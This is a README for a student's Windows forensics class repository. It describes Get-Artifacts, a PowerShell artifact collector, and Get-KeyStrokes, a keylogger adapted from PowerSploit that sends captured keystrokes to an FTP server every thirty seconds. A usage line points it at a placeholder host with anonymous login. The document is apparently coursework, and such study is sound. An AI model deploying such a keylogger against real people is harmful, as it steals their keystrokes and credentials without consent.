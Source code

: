 # DFIR_trd6577_CSEC475
Windows Forensics Repository

This repository is for work done in my Windows Forensics class at RIT

## Get-Artifacts
This Powershell script gets a large amount of artifacts from a computer. Some of these artifacts include:
* Time
* Windows version
* Hardware specs
* Domain controller information
* List of users (local, domain, system, and service)
* Services/programs that start on boot
* ARP and routing tables
* Network interface information
* Established connections and their associated process IDs
* Process list
* Driver list

### Usage
`Get-Artifacts.ps1 [-Csv] [-CsvPath C:\desired\path\to\csv] [-Email] [-Computers computer1,computer2,computer3]`

By default, Get-Artifacts (run without any arguments) outputs the artifacts collected from the local computer onto the screen
* -Csv tells the script to output the artifacts in a CSV file
* -CsvPath specifies where to place the CSV file. By default, -CsvPath is set to the directory the script is placed in
* -Email means that you want to generate a csv file and email it to someone. This option only works with Gmail accounts
that do not have two factor authentication enabled and have changed their Google settings to allow insecure app access
* -Computers allows you to specify remote computer to connect to and gather this information from

## Get-KeyStrokes
This powershell script uses much of the work done by Chris Campbell and Matthew Graeber in their key logger script
(which is part of their PowerSpolit Library). It logs a user's keystrokes and then sends the keystrokes to an ftp
server every thirty seconds.

### Usage
`Get-KeyStrokes -FtpServer ftp://example.com`

Logs in with anonymous/anonymous

## Author
Repository owner: Tom Daniels
